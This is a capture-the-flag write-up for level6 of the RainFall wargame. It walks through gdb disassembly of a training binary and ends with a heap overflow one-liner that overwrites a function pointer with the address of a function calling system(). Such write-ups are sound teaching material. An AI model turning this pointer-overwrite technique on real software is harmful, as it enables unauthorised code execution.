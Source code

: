 Again... `radare2`, `gdb`, here we go:
```bash
(gdb) info functions
All defined functions:

Non-debugging symbols:
[...]
0x08048454  n
0x08048468  m
0x0804847c  main
[...]
```
```bash
(gdb) disas main
Dump of assembler code for function main:
   0x0804847c <+0>:     push   %ebp
   0x0804847d <+1>:     mov    %esp,%ebp
   0x0804847f <+3>:     and    $0xfffffff0,%esp
   0x08048482 <+6>:     sub    $0x20,%esp
   0x08048485 <+9>:     movl   $0x40,(%esp)
   0x0804848c <+16>:    call   0x8048350 <malloc@plt>
   0x08048491 <+21>:    mov    %eax,0x1c(%esp)
   0x08048495 <+25>:    movl   $0x4,(%esp)
   0x0804849c <+32>:    call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:    mov    %eax,0x18(%esp)
   0x080484a5 <+41>:    mov    $0x8048468,%edx
   0x080484aa <+46>:    mov    0x18(%esp),%eax
   0x080484ae <+50>:    mov    %edx,(%eax)
   0x080484b0 <+52>:    mov    0xc(%ebp),%eax
   0x080484b3 <+55>:    add    $0x4,%eax
   0x080484b6 <+58>:    mov    (%eax),%eax
   0x080484b8 <+60>:    mov    %eax,%edx
   0x080484ba <+62>:    mov    0x1c(%esp),%eax
   0x080484be <+66>:    mov    %edx,0x4(%esp)
   0x080484c2 <+70>:    mov    %eax,(%esp)
   0x080484c5 <+73>:    call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:    mov    0x18(%esp),%eax
   0x080484ce <+82>:    mov    (%eax),%eax
   0x080484d0 <+84>:    call   *%eax
   0x080484d2 <+86>:    leave
   0x080484d3 <+87>:    ret
End of assembler dump.
(gdb) disas m
Dump of assembler code for function m:
   0x08048468 <+0>:     push   %ebp
   0x08048469 <+1>:     mov    %esp,%ebp
   0x0804846b <+3>:     sub    $0x18,%esp
   0x0804846e <+6>:     movl   $0x80485d1,(%esp)
   0x08048475 <+13>:    call   0x8048360 <puts@plt>
   0x0804847a <+18>:    leave
   0x0804847b <+19>:    ret
End of assembler dump.
(gdb) disas n
Dump of assembler code for function n:
   0x08048454 <+0>:     push   %ebp
   0x08048455 <+1>:     mov    %esp,%ebp
   0x08048457 <+3>:     sub    $0x18,%esp
   0x0804845a <+6>:     movl   $0x80485b0,(%esp)
   0x08048461 <+13>:    call   0x8048370 <system@plt>
   0x08048466 <+18>:    leave
   0x08048467 <+19>:    ret
End of assembler dump.
```
When running the executable:
```bash
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)
level6@RainFall:~$ ./level6 aa
Nope
```

We know that a **function pointer** containing `m()`'s address is called and we want to change this so that `n()` is called instead.
We are going to try and set `$eax` to `n()`'s address: `0x08048454`.
Using our [generator](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we find that the **EIP offset is 72**.

So we write a script:
```bash
./level6 $(python -c 'print("A"*72 + "\x54\x84\x04\x08")')
```

And get the flag.